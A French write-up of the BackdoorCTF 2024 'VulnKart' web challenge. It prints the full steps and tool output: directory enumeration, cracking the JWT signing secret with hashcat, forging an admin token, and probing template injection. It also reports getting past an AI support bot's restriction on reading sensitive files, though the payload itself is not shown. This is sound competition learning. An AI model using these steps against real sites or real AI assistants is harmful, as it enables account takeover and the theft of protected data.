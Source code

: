 ```yaml
---
title: Backdoor 2024 - Writeups
time: 2024-12-23 18:00:00
categories: [ctf]
tags: [web,forensic,crypto]
image: /assets/posts/backdoorctf2024/icon.png
---
```


Mes writeups pour les challenges que j'ai réussi à résoudre durant le BackdoorCTF 2024. 

## VulnKart [Web] 45 Solves
Description: A simple shopping platform.

>http://34.71.27.111:4007/

>Author: j4ck4l

Flag: `flag{LLMs_c4n_b3_d4ng3r0us_1f_n0t_gu4rdr41l3d_w3ll}`

Nous n'avons eu aucun fichier source, juste l'url du site Web. 

```bash
┌──(kali㉿korpstation)-[~]
└─$ gobuster dir -u http://34.71.27.111:4007/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://34.71.27.111:4007/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cart                 (Status: 302) [Size: 199] [--> /login]
/checkout             (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 4029]
/logout               (Status: 302) [Size: 199] [--> /login]
/profile              (Status: 302) [Size: 199] [--> /login]
/register             (Status: 200) [Size: 4305]
/search               (Status: 405) [Size: 153]
/support              (Status: 302) [Size: 199] [--> /login]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

La route ``login`` pour se connecter.

![login](/assets/posts/backdoorctf2024/login.png)


On doit préalablement s'inscrire par la route ``register``.

 ![register](/assets/posts/backdoorctf2024/register.png)

 Je m'inscris sous le username `{7*7}test1` et je me connecte. On tombe sur un site vitrine avec des articles.

![home](/assets/posts/backdoorctf2024/home.png)
 
On peut consulter les détails d'un article, l'ajouter aux favoris. Rien de ce côté ne menais vers le flag. 

En inspectant le site web nous avons un cookie de session jwt 

 `session_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk`

En decodant le cookie  il contient un username, un role et un horodatage d'expiration. 

```bash
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi      

Original JWT: 

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] username = "{7*7}test1"
[+] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[+] role = "user"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

```
J'ai utilisé `hashcat` pour cracker la clé secrète. 

```bash
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ hashcat jwt /usr/share/wordlists/rockyou.txt     
hashcat (v6.2.6) starting in autodetect mode
--SNIP--
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZS...D-xoDk
Time.Started.....: Mon Dec 23 20:40:42 2024 (22 secs)
Time.Estimated...: Mon Dec 23 20:41:04 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   644.5 kH/s (1.26ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14262272/14344385 (99.43%)
Rejected.........: 0/14262272 (0.00%)
Restore.Point....: 14261248/14344385 (99.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 007857 -> 0071851013
Hardware.Mon.#1..: Util: 92%

Started: Mon Dec 23 20:40:39 2024
Stopped: Mon Dec 23 20:41:06 2024
                                                                                                                                                                                                      
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ hashcat jwt /usr/share/wordlists/rockyou.txt  --show
--SNIP--

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk:0077secret0077

```
La clé secrète étant ```0077secret0077``` je l'ai utilisé pour reforger le cookie avec un rôle admin. 

```bash
                                                                                                                                                       
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk -T -p 0077secret0077 -S hs256 

--SNIP--

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "{7*7}test1"
[2] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[3] role = "user"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 3

Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] username = "{7*7}test1"
[2] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[3] role = "admin"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_5e89f9de2e7d954ca69bb8007aeb69e1 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJhZG1pbiJ9.88srhqzq-EHoJaLzx2Q-TbILoih0SC_BJmL702A0_fg

```

J'ai utilisé le nouveau jwt et j'ai réussi à me connecter en tant qu'admin. 

![admin](/assets/posts/backdoorctf2024/adminprofile.png)
![admin2](/assets/posts/backdoorctf2024/paneladmin.png)

Je pensais avoir fini avec ce défi mais c'était un trop de lapin. Le flag sur la page d'administration `flag{d0_y0u_r34lly_th1nk_th15_is_th3_r34l_fl4g}` est fake. 

Il est temps de se pencher sur les autres routes que gobuster nous a énumérés. En analysant la route `/support`
avec quelques exploits j'ai vu une vulnérabilité ssti. 

![ssti](/assets/posts/backdoorctf2024/support.png)

> Comment l'exploiter ? 

Notre site est une application web Flask python.  

![tech](/assets/posts/backdoorctf2024/wappy.png)

J'ai commencé avec les payloads hacktrics sans succès. Mais à travers les réponses j'ai constaté que nous avons affaire à une IA qui avait des restrictions sur la lecture des fichiers sensibles. 

Après plusieurs essaies j'ai utilisé ce payload pour avoir le flag :


![flag](/assets/posts/backdoorctf2024/flag.png)
